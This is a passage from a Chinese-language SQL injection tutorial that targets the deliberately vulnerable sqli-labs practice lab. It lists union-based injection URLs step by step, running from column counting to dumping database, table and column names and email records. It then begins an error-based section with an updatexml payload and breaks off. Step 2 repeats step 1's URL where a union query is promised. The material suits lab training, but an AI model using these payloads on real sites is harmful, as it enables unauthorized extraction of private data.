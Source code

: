 



# 0x04 联合查询：
1. 通过order by 快速知道目标列数

```shell
http://Tkitn/sqli-labs-master/Less-1/index.php?id=1' order by 4-- -
```

2. 再通过上一步判断的列数 做union联合查询

```shell
http://Tkitn/sqli-labs-master/Less-1/index.php?id=1' order by 4-- -
```

3. 为了让我们插入的恶意语句 有回显 我们用-1 让前面的查询为空 

```shell
http://Tkitn/sqli-labs-master/Less-1/index.php?id=-1' union select 1,2,3-- -
```

4. 再在回显点插入sql语句即可

```shell
# 拖库名字
http://Tkitn/sqli-labs-master/Less-1/index.php?id=-1' union select 1,(database()),3-- -

# 拖表名字
http://Tkitn/sqli-labs-master/Less-1/index.php?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3-- -

# 拖你感兴趣的列名字
http://Tkitn/sqli-labs-master/Less-1/index.php?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name="emails"),3-- -

# 拖最终数据
http://Tkitn/sqli-labs-master/Less-1/index.php?id=-1' union select 1,(select group_concat(id,0x3a,email_id) from emails),3-- -
```

# 0x05 报错注入：
> 参考文章：
>
> [MySQL 常用报错注入原理分析](https://www.cnblogs.com/Triomphe/p/9489639.html)
>

## 3.1 updatexml函数:
##### 从本质上说是函数的报错
**示例**：?id = 1’+**updatexml**(1,concat(0x7e,(select version()),0x7e),1);



## 3.2 floor()函数
1. 爆出当前数据库

